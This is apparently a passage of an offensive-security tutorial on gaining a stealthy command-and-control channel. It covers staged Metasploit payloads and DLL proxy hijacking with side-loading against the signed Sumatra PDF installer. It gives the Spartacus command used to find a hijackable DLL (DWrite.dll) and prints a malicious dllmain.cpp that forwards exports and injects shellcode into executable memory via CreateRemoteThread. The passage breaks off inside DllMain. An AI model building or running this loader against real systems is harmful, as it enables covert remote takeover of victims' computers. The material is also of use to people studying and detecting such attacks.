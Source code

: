 #### Connection Process:

* **Step1>**  The victim executes the stage 1 payload stored on disk. This triggers the download of the stage 2 payload from port 8443 on the attacker's machine using Metasploit.

* **Step 2>** Once downloaded, the stage 2 payload establishes a connection from the victim's machine, establishing a Command and Control (C2) channel to port 443 on the attacker's system.

## Chapter 2: Executing C2 Connection via DLL Proxy Hijacking + Side-Loading
In this chapter, we will explore how to stealthily execute a Command and Control (C2) connection using DLL Proxy Hijacking and Side-Loading techniques. We'll detail each step of the process, from determining which Portable Executable (PE) to use, to creating and executing a malicious DLL.
### Steps to Execute C2 Connection via DLL Proxy Hijacking and Side-Loading
#### 1. Determine a Vulnerable PE
* **Objective:** Identify a signed/trusted PE that allows DLL side-loading.

* **Example PE:** Sumatra PDF setup executable.

* [**Download Link ** ](https://www.sumatrapdfreader.org/download-free-pdf-viewer?source=post_page-----733d423fc67b--------------------------------)
  
#### 2. Identify the DLL Name and Export Definitions
* **Objective:** Ensure that the malicious DLL does not break the PE.

* **Tools:** Sparticus and procmon from sysinternals.

* **Command to Run Sparticus:**
```bash
.\Spartacus.exe --mode dll --procmon .\Procmon.exe --pml C:\Data\logs.pml --csv C:\Data\VulnerableDLLFiles.csv --solution C:\Data\Solutions --verbose
```
* **DLL Chosen for Hijacking:** DWrite.dll

* **Generate cpp Template:** Sparticus outputs a C++ template with export definitions.

#### 3. Create and Build Malicious DLL
* **File:** dllmain.cpp
* **Pragma Comments and Includes:**
```cpp
#pragma once
#pragma comment(linker, "/export:DWriteCreateFactory=C:\\Windows\\System32\\DWrite.DWriteCreateFactory,@1")
#include <windows.h>
#include <ios>
#include <fstream>
```
* **Payload Function:**
```cpp
VOID Payload() {
    unsigned char shellcode[] = {
        "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
        // Rest of the shellcode here
    };

    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());
    PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof(shellcode, NULL));
    HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
```